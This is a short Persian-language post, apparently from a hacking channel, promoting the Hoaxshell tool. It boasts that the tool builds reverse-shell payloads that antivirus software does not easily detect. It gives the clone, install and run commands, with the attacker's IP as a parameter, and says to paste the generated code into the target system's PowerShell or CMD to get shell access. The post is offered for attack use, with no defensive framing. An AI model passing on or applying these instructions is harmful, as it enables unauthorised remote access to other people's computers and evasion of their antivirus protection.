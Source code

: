 Hoaxshell  👉 پیلود چیست؟

با استفاده از این ابزار میتونید خیلی راحت پیلود reverse shell بسازید یا به عبارتی دیگر با استفاده از پیلود ساخته شده با این ابزار میتونید دسترسی شل از سیستم بگیرید !💀

این ابزار قادر به ساخت پیلودی است که به راحتی با آنتی ویروس ها شناسایی نمیشه !🕷️
🟡خب بریم برای نصب : 💥

git clone https://github.com/t3l3machus/hoaxshell 

cd ./hoaxshell

sudo pip3 install -r requirements.txt

chmod +x hoaxshell.py

بعد نصب برای ساخت پیلود دستور زیرو بزنید 💀

sudo python3 hoaxshell.py -s <your_ip>

➖➖➖➖➖➖➖➖➖
بعد توی خروجی شما با یه کد مواجه میشید اون اصل کاری هستش  و باید توی  PowerShell یا CMD سیستم مورد نظر وارد کنید
